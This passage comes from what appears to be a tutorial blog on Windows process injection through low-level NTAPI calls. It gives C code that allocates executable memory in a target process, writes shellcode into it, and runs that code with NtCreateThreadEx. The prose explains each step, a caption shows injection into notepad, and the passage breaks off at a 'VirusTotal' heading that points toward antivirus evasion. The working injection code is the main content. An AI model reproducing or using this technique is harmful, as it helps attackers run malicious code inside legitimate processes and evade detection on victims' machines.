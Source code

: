 ```c
STATUS = pAllocate(hProcess, &rBuffer, NULL, &szShellcode, (MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);
// NtWriteVirtualMemory
STATUS = pWrite(hProcess, rBuffer, bin, sizeof(bin), &bytesWritten);
// NtCreateThreadEx
STATUS = pCreateThreadEx(&hThread, THREAD_ALL_ACCESS, &oAttrib, hProcess, (LPTHREAD_START_ROUTINE)rBuffer, NULL, 0, 0, 0, 0, 0);
WaitForSingleObject(hProcess, INFINITE);
// NtClose
STATUS = pClose(hThread);
STATUS = pClose(hProcess);
```

I've removed most of the debug statement except one just to give an idea on how I debug my code. As you see, we first open a Handle to the process, then Allocate Virtual Memory of the size of our shellcode, Write our shellcode into the memory and then create a thread to run our shellcode and finally wait for it to complete it's execution.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Injecting shellcode to notepad</p></figcaption></figure>

And we have finally implemented Process Injection using the low-level NTAPI functions. I would also later show how we can leverage system calls (Direct & Indirect) to perform Process Injection. It is definitely a fact that we would face some issues even when simply performing same steps as what we see on any website and that's why it is **importante** to add debug statements to our code.

## VirusTotal
